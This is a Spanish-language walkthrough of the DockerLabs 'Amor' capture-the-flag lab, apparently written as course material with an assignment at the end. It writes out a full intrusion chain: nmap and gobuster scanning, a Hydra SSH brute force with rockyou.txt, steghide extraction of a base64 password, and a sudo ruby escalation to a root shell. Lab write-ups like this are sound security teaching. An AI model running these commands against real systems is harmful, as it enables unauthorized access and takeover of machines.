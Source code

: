 ## DOCKERLABS

DockerLabs es una plataforma que ofrece una serie de desafíos prácticos relacionados con Docker, organizados por niveles de dificultad: Muy Fácil, Fácil, Medio y Difícil

# Reto Amor 

**Prerequisito tener instalado docker**

## Fácil

Dockerlabs.es

*Descarga*

![](Descarga.jpg)

Una vez descargada deberemos copiar el contenido hacia kali.

![](scp1.jpg)

```bash
jaider@TTG MINGW64 /g/HACKING
$ scp -r amor kali@192.168.1.12:/home/kali/Documents/
```
Ya en Kali y en caso de no tener instlado Docker proceder a su instalación: 

```bash
sudo apt install docker.io
```

## Despliegue del laboratorio.

Iniciaremos nuestro reto creando una carpeta para el ejercicio, descargando el laboratorio, descomprimiendo, otorgando permisos al script de despliegue y ejecutando el script.

**Descomprimir el recurso:**

En nuestro caso se trata de la carpeta que se traslado por SCP desde ya descomprimida, en caso de que se descargue directamente en Kali proceder a descomprirla. 

```bash
unzip nombre_maquina.zip
```

Esto generará una  carpeta  con archivos: un script que es el autodespliegue de la máquina «auto_deploy.sh» y el archivo de la máquina en.tar «ejemplo.tar».

Y por último para desplegar la máquina, basta con ejecutar el script:


```bash
└─# ./auto_deploy.sh amor.tar 
```

![](Despliegue.jpg)


## Escaneo

Lo primero que realizaremos será revisar nuestra interfaz de red con:

![](ipadd.jpg)

```bash
ip add 
```
para saber a qué segmento apuntaremos nuestros escaneos.

Ya con el segmento en vista y la interfaz, realizaremos una consulta a la red con el siguiente comando:

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

![](netdiscover.jpg)


Acto seguido, realizaremos una búsqueda con nmap (Network Mapper):

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```

![](nmap.jpg)

La búsqueda nos devuelve que hay dos puertos abiertos, el **22** y el **80**.

Abrimos el navegador para revisar el servicio del puerto **80**.

A la vista no se encuentra nada, así que realizamos un fuzzing para ver si encontrábamos algo. Aun que veremos que es infructuoso el procdimieno. 

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![](gobuster.jpg)

A esta altura el servicio web no nos dio el amor que buscábamos, pero sí nos quedamos con la pista de carlota y juan, así que intentaremos con Hydra por SSH con esos usuarios. (Inspección del sitio web)



## Conexión Hydra

Ejecutamos el siguiente comando de hydra, el cual nos da una respuesta positiva al fin:

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

![](hydra.jpg)

Realizamos la conexión SSH con los datos obtenidos:

Navegamos a la siguiente ruta:

```bash
cd /carlota/Desktop/fotos/vacaciones
```

En donde encontrarás un archivo llamado `imagen.jpg`.

Para descargarlo lo realizaremos mediante scp como:

```bash
 scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```
![](scp.jpg)


La imagen descargada es la siguiente:

![](foto.jpg)

## Con file identificamos el tipo de fichero.

file.jpg


## Esteganografía

Ya es sospechoso que solo exista una imagen entre las rutas, por lo cual decidimos realizar una consulta de esteganografía con:

```bash
steghide --extract -sf imagen.jpg
```

Dentro del archivo secret.txt encontraremos el siguiente código:

Realizamos una búsqueda para saber qué tipo de codificación es y nos da por resultado que es base64, así que realizamos una decodificación:

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

Usaremos esta información como contraseña para intentar migrar a otro usuario o convertirnos en root:

```bash
su oscar
```

Con `sudo -l` vemos que tenemos acceso a la consola de **ruby** y la ejecutamos:

![](sudo.jpg)

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Finalmente hacemos un:

```bash
whoami
```
![](root.jpg)

# Taller Individual.

1. ReAlizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado  mediante un cuadro que explique su definición, funcionalidad y casos de uso.

2. Explicar en detalle cada uno de los comandos empleados realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando.
3. Realice un diagrama de flujo de todo el procedimiento realizado.

